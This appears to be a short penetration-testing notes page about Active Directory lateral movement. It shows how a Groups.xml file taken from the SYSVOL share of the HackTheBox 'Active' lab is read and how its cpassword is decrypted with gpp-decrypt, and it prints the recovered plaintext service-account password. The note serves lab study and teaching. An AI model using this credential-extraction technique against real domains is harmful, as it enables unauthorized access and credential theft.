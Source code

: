 ```yaml
---
description: >-
  SYSVOL lateral movemet abusing Groups.xml file.
title: SYSVOL (Groups.xml)              # Add title here
date: 2023-02-09 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement - SYSVOL (Groups.xml)]                     # Change Templates to Writeup
tags: [active directory, lateral movement, groups.xml, sysvol share, gpp decrypt]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

If we have access to a SYSVOL file, we can extract the "Groups.xml" file and decrypt the cpassword with gpp-decrypt utility:
```bash
# Contents of Groups.xml
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Examples:
[Active](https://shuciran.github.io/posts/Active/#fnref:sysvol-gpp-decrypt)